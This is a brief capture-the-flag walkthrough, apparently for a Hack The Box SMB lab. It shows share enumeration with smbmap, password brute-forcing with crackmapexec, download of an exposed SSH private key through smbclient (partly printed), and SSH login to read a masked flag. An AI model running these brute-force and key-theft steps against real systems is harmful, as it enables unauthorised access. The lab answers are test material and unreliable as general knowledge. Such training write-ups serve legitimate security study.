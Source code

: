 ## Questions:

### What is the name of the shared folder with READ permissions?

```
smbmap -H $TARGET_IP
[+] IP: TARGET_IP:445	Name: TARGET                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	GGJ                                               	READ ONLY	Priv
	IPC$                                              	NO ACCESS	IPC Service (attcsvc-linux Samba)

```

### What is the password for the username "jason"?
* Fist Download pwd.list from resources.
```
crackmapexec smb $TARGET_IP -u jason -p pwd.list --local-auth
```

### Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

``` 
smbclient  //$TARGET_IP/GGJ -U 'jason%$PASSWORD' -

smb: \> ls
  .                                   D        0  Tue Apr 19 16:33:55 2022
  ..                                  D        0  Mon Apr 18 12:08:30 2022
  id_rsa                              N     3381  Tue Apr 19 16:33:04 2022

		14384136 blocks of size 1024. 10088352 blocks available
smb: \> get id_rsa
getting file \id_rsa of size 3381 as id_rsa (89.2 KiloBytes/sec) (average 89.2 KiloBytes/sec)
smb: \> !cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA1RKythwhDQVnsZpGDDeIWh/z0a4y5mQoIIBXOeHJM8rLNzB/fdMD
XvN+6R6s0wh/fpava2en2s/G6m8OGjjY8DbgO0A40HwzKyVEKk15tJ9QlcaqS0O77UrjW/
...
<SNIP>
....
```
```
 [★]$ ls
cacert.der  Documents  id_rsa  Pictures  pwd.list   Videos
Desktop     Downloads  Music   Public    Templates

```
```
chmod 600 id_rsa
ssh -i id_rsa jason@$TARGET_IP
cat flag.txt
HTB{SMB_*******_*********9}
```